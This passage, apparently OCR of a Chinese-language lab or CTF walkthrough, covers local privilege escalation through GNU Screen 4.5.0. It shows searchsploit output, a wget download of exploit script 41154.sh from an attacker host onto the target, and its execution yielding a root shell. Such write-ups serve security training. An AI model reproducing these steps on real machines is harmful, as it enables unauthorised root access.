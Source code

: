     发现`screen-4.5.0`
    
3. 搜索`screen-4.5.0` 是否存在提权漏洞
    
    ```python
    searchsploit screen 4.5.0
    ------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                                                                   |  Path
    ------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    GNU Screen 4.5.0 - Local Privilege Escalation                                                                                                    | linux/local/41154.sh
    GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                              | linux/local/41152.txt
    ------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
    ```
    
    将`linux/local/41154.sh` 拿去下来下载到靶机
    
4. 执行脚本
    
    ```python
    $ wget http://192.168.75.151/41154.sh
    converted 'http://192.168.75.151/41154.sh' (ANSI_X3.4-1968) -> 'http://192.168.75.151/41154.sh' (UTF-8)
    --2024-11-03 05:11:00--  http://192.168.75.151/41154.sh
    Connecting to 192.168.75.151:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1149 (1.1K) [application/x-sh]
    Saving to: '41154.sh'
    
    41154.sh            100%[=====================>]   1.12K  --.-KB/s   in 0s
    
    2024-11-03 05:11:00 (8.86 MB/s) - '41154.sh' saved [1149/1149]
    //
    $ chmod u+x 41154.sh
    //
    $ ./41154.sh
    ~ gnu/screenroot ~
    [+] First, we create our shell and library...
    [+] Now we create our /etc/ld.so.preload file...
    [+] Triggering...
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /tmp/screens/S-www-data.
    
    # id
    id
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    # whoiam
    whoiam
    sh: 2: whoiam: not found
    # whoami
    whoami
    root
    ```
    